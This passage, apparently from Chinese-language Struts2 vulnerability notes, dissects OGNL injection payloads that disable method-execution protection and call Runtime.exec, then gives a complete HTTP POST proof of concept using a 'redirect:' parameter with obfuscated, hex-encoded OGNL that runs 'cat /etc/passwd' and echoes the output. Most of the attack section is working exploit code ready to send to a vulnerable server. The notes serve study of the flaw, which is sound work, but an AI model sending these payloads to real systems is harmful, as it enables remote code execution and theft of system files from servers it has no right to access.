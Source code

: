    - `(%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)` 这部分的作用是在 OGNL 上下文（context）中设置 `'xwork.MethodAccessor.denyMethodExecution'` 属性的值为 `#vccc`，其中 `#vccc` 是一个 OGNL 变量。
   - `(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22))` 这部分的作用是设置 `#vccc` 变量的值为 `new Boolean("false")`。实际上，这就相当于将 `'xwork.MethodAccessor.denyMethodExecution'` 的值设置为 `false`。

   这两步操作实际上是绕过了 Struts2 的安全限制。Struts2 通过 `'xwork.MethodAccessor.denyMethodExecution'` 这个属性来阻止 OGNL 表达式调用方法，其默认值为 `true`，即默认禁止调用方法。但是这段 payload 通过设置其值为 `false`，从而允许 OGNL 表达式调用方法，这样就可以通过 OGNL 表达式执行任意 Java 方法，导致远程代码执行漏洞。

   至于前面的 `(aaaa)` 则是一个无效的表达式，和前面提到的 `(vaaa)` 类似，它并没有实际的作用，只是增加了 payload 的混淆程度。

3. 获取到Runtime对象，并将这个对象赋值给`#rt`, 然后通过`#rt`来调用Runtime对象的exec方法，执行系统命令。

   ```java
   (asdf)(
       ('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')
       (%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime())
   )=1
       
   ####
   (asdf)(
       ('#rt.exec("touch@/tmp/success".split("@"))')
       (#rt=@java.lang.Runtime@getRuntime())
   )=1
   ```

   1. `('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')` 这部分的作用是执行命令 `touch /tmp/success`。这里 `%5cu0023rt` 是一个变量，它将在下一步被赋值。`exec` 是 `java.lang.Runtime` 类的一个方法，用于执行系统命令。参数是一个字符串数组，这里使用了 `split("@")` 方法将 `"touch@/tmp/success"` 字符串分割成数组。
   2. `(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime())` 这部分的作用是获取 Java 的运行时环境，并将其赋值给 `#rt` 变量。`@java.lang.Runtime@getRuntime()` 是 OGNL 表达式，它使用 `@` 符号调用了静态方法 `java.lang.Runtime.getRuntime()`，该方法返回当前 Java 应用的运行时环境。

   至于前面的 `(asdf)`，这是一个无效的表达式，它并没有实际的作用，只是增加了 payload 的混淆程度。

   `=1` 这部分也并没有实际的功能。在一个典型的 HTTP GET 请求中，参数是以键值对的形式存在的，如 `key=value`，而 `=1` 就符合这种格式。

   总的来说，这段 payload 的实际效果是：首先获取 Java 的运行时环境，然后利用这个运行时环境执行命令 `touch /tmp/success`，创建一个名为 `success` 的文件在 `/tmp` 目录下。

----

执行任意命令POC（有回显，将需要执行的命令进行urlencode编码）:

```http
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 192.168.1.215:8081
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}

```
